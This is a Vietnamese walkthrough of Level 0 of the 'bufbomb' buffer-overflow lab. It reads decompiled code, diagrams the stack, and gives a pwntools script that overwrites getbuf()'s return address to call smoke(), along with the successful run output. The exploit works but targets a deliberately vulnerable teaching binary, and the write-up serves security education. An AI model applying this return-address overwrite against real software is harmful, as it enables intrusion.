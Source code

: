 # Level 0
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Yêu cầu: Buffer overflow để thực thi hàm `smoke()` từ hàm `test()`.

## Solution
Mở IDA Pro 32bit và xem pseudocode của hàm `test()`.  

```c
int test()
{
  int v1; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  v1 = uniqueval();
  v2 = getbuf();

  if ( uniqueval() != v1 )
    return puts("Sabotaged!: the stack has been corrupted");
  if ( v2 != cookie )
    return printf("Dud: getbuf returned 0x%x\n", v2);
  printf("Boom!: getbuf returned 0x%x\n", v2);
  return validate(3);
}
```  

Có thể thấy, ở trong hàm `test()` có hàm `getbuf()` được dùng để đọc chuỗi vào buffer. Vậy chúng ta tiến hành xem pseudocode của hàm `getbuf()`.  
```c
int getbuf()
{
  char v1[40]; // [esp+0h] [ebp-28h] BYREF

  Gets(v1);
  return 1;
}
```  

Từ đoạn pseudocode trên thì ta có thể thấy, `buffer` sẽ có độ dài là 40 (`0x28`) bytes và `buffer` này sẽ được truyền vào hàm `Gets()` để thực hiện việc đọc chuỗi từ console.  

Trước khi hàm `Gets()` được thực thi, stack của chúng ta sẽ như sau:  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+

```  

Vậy để thực thi được hàm `smoke()`, chúng ta sẽ tìm cách ghi đè địa chỉ của hàm `smoke()` vào ô nhớ stack chứa địa chỉ trả về của hàm `getbuf()` (như hình ảnh minh họa ở trên). Do đó, payload của chúng ta phải có độ dài `0x28 + 0x4 + 0x4` (với `0x28` bytes để fill hết toàn bộ buffer được cấp, `0x4` tiếp theo để ghi đè `ebp` của hàm `getbuf()` và `0x4` cuối cùng chính là địa chỉ của hàm `smoke()`.  

Ở hàm `smoke()`, nếu chúng ta gọi hàm thành công thì chuỗi `Smoke!: You called smoke()` sẽ được in ra console.  
```c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}
```

### Script
Để hiện thực hóa ý tưởng trên thì chúng ta sẽ dùng module `pwn` của Python.  

```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo 1 tiến trình tới chương trình bufbomb
io = process(['./bufbomb', '-u', '09821978'])

e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)

# lấy địa chỉ của hàm smoke() và thêm vào payload
exploit_payload += p32(e.symbols['smoke'])

# nhập payload vào tiến trình bufbomb
io.sendline(exploit_payload)

# hiển thị kết quả
io.interactive()
```  

Stack khi bị buffer overflow:  
```
+---------------------------------+
|     địa chỉ của hàm smoke()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x1C bytes 
               .

+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+

```

Chạy script:  

```
└─$ ./level0.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 52
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 52)
Userid: 09821978
Cookie: 0x31f21393
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
